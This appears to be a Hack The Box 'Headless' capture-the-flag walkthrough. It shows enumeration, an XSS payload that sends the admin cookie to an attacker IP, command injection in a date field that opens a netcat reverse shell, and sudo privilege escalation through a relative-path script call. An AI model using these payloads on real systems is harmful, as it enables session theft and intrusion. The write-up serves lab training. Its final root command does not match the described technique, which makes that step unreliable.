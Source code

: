 ## HTB - HEADLESS
## LINUX - EASY
## 10.10.11.8 
------------------------------------------------------------------------
### ENUM
#### NMAP
```bash
sudo nmap -v -sC -sV -oA initial --min-rate 1000 10.129.170.0
```
22 : OpenSSH 9.2p1
5000 : Werkzeug/2.2.2 Python/3.11.2
- Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
```bash
echo 'InVzZXIi' | base64 -d
```
**user**

#### GOBUSTER
```bash
gobuster dir -u http://10.129.67.166:5000 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]

------------------------------------------------------------------------
### ACTION
#### WEBSITE
1. the webpage http://headless.htb:5000/support is a form. So we try XSS.
**RESULT** 
A message appaers that it detect the hacking tentative and data will be send to the administrator for investigation. In the message we see all infiormation that will be send to the admin.

2. Let's try to CSRF the cookie of the admin. 
3. Intercept the POST request from the support form with Burpsuite.
4. Put a payload in the "user-agent" field : 
```javascript
<script>var i=new Image(); i.src="http://10.10.14.23/?cookie="+btoa(document.cookie);</script>
```
5. Run a webserver
```bash
python3 -m http.server 80
```
6. send the evil request and wait for the connexion
**10.129.67.166 - - [27/Mar/2024 11:38:08] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200**
7. change the cookie value and go to http://headless.htb:5000/dashboard

8. Accessing the dashboard, we can choose a date and click to submit
9. Intercet the POST request with Burpsuite, we found the variable date.
10. Adding a reverse shell payload after the date : **date=2023-09-15;nc%2010.10.14.23%209100%20-e%20%2Fbin%2Fsh**
11. We have a shell.

#### REVSHELL
1. Stabilize the shell
2. Go to the home directory of the user "dvir", we found *flag.txt*
3. Upload and run Linpeas.
**FOUND**
User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

131912      4 -rw-r--r--   1 root     mail          772 Sep 10  2023 /var/mail/dvir
131912      4 -rw-r--r--   1 root     mail          772 Sep 10  2023 /var/spool/mail/dvir
**MAIL FOUND**
```
Subject: Important Update: New System Check Script

Hello!

We have an important update regarding our server. In response to recent compatibility and crashing issues, we've introduced a new system check script.

What's special for you?
- You've been granted special privileges to use this script.
- It will help identify and resolve system issues more efficiently.
- It ensures that necessary updates are applied when needed.

Rest assured, this script is at your disposal and won't affect your regular use of the system.

If you have any questions or notice anything unusual, please don't hesitate to reach out to us. We're here to assist you with any concerns.

By the way, we're still waiting on you to create the database initialization script!
Best regards,
Headless
```
4. Take a look at /usr/bin/syscheck. It's a bash file.
5. the script call another script that don't exist on the target. Plus, it call the script without using the absolute path.
6. Create a script named "initdb.sh"  in the current directory with just `/bin/bash`. 
7. run the sudo command :
```bash
sudo /usr/bin/bash
```
8. We are root.